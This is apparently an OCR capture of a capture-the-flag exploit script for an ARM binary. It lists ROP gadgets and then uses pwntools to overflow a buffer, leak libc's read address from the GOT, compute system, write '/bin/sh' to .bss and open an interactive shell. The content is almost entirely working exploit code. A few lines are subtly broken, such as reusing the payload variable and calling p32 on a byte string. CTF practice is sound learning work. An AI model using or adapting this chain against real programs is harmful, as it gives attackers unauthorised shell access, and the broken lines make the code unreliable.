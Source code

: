 ```bash
0x000104e0 : mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3 ; cmp r6, r4 ; bne #0x104e0 ; pop {r4, r5, r6, r7, r8, sb, sl, pc}
0x000104a0 : mov r3, #0 ; mov r0, r3 ; pop {fp, pc}
0x0001047c : mov r3, #0 ; mov r0, r3 ; sub sp, fp, #4 ; pop {fp, pc}
0x00010418 : mov r3, #1 ; strb r3, [r4] ; pop {r4, pc}
0x000104dc : mov r4, #0 ; mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3
0x000104dc : mov r4, #0 ; mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3 ; cmp r6, r4 ; bne 
0x104e0 ; pop {r4, r5, r6, r7, r8, sb, sl, pc}
0x00010488 : pop {fp, pc}
0x00010488 : pop {fp, pc} ; andeq r0, r1, ip, lsl r5 ; andeq r0, r1, r4, lsr #10 ; push {fp, lr} ; add fp, sp, #4 ; bl #0x1042c ; mov r3, #0 ; mov r0, r3 ; pop {fp, pc}
0x000102e8 : pop {r3, pc}
0x00010420 : pop {r4, pc}
0x00010500 : pop {r4, r5, r6, r7, r8, sb, sl, pc}
"""

r4_r10_pc=0x00010500
write=elf.got['write']
read=elf.got['read']
bss=elf.bss()+0x100
bss_8=elf.bss()+0x108
ret_addr=elf.symbols['dofunc']

#pop {r4, r5, r6, r7, r8, sb, sl, pc}
again=0x000104e0
#mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3 ; cmp r6, r4 ; bne #0x104e0 ; pop {r4, r5, r6, r7, r8, sb, sl, pc}
pc=0x00010500

ru("input:")
payload=flat([b'a'*12,r4_r10_pc,0,write,1,1,read,4,b'a'*4,pc])

payload+=flat([0,read,1,0,bss,0x10,b'a'*4,again])

payload+=flat([b'a'*4,b'a'*4,b'a'*4,b'a'*4,b'a'*4,b'a'*4,b'a'*4,ret_addr])

sl(payload)
ru('byebye')

read_real=uu32(r(4))
libcbase=read_real-libc.symbols['read']

system=libcbase+libc.symbols['system']

sl(p32(system)+b'/bin/sh\00')
ru("input:")

payload+=cyclic(12)+p32(r4_r10_pc)+p32(b'a'*4)+p32(bss)+p32(b'a'*4)+p32(bss_8)+p32(b'a'*4)+p32(b'a'*4)+p32(b'a'*4)+p32(again)

sl(payload)
p.interactive()
```
